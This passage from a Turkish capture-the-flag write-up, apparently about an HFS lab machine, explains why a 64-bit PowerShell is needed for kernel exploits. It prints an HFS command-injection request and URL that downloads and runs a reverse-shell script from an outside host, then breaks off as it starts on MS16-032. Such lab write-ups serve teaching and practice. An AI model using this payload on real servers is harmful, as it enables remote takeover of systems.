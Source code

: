 MS16-032, MS16-034 ve MS16-135 olmak üzere üç adet “Appears Vulnerable” ibaresi bulunmaktadır.



### The Importance of Architecture

Bu exploitleri çalıştırmak için uzun süre uğraştım ve çalışması gereken yerlerde çalışmadılar. Sonra, çalışan **PowerShell process'inin** mimarisini bilmenin önemini hatırladım.

Sadece `powershell` komutunu çağırarak **shell**'i başlatmak, **32-bit bir process** olarak çalışan bir ortam döndürür:

```
PS C:\Users\kostas\Desktop> [Environment]::Is64BitProcess 
False
```

Bunun nedeni HFS prosesinin muhtemelen 32 bit proses olarak çalışıyor olmasıdır. Bu tablo ([ss64.com](https://ss64.com/nt/syntax-64bit.html)'dan alınmıştır) mevcut oturum mimarisine göre farklı yolların nasıl çalıştığını göstermektedir:

![Pasted image 20250209181241.png](/img/user/resimler/Pasted%20image%2020250209181241.png)

Dolayısıyla, 32 bitlik bir oturumda C:\windows\system32 yolundan PowerShell'i çağırmak 32 bitlik sürümü verecektir. 32 bit bir oturumda 64 bit işletim sistemine karşı kernel exploit çalıştırmaya çalışmak başarısız olacaktır.

64 bit bir shell elde etmek için, sysNative dizinindeki PowerShell'in tam yolunu kullanacağım:

```
GET /?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.9/rev.ps1').} HTTP/1.1
Host: 10.10.10.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: HFS_SID=0.916518518235534
Upgrade-Insecure-Requests: 1
```

```
http://10.10.10.8/?search=%00{.exec|C%3a\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.16.9/rev.ps1').}
```

Ortaya çıkan shell 64 bittir:

![Pasted image 20250209181539.png](/img/user/resimler/Pasted%20image%2020250209181539.png)

### MS16-032
Yukarıdaki exploit-db bağlantısı bu tür bir senaryo için çalışmayacaktır, çünkü bu bir komut çalıştırma imkanı sunmak yerine kutuda yeni bir pencere açacaktır. Neyse ki, Empire projesindeki ekip bu scriptin bir [versiyonunu](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) komut seçeneği ekleyecek şekilde uyarladı.
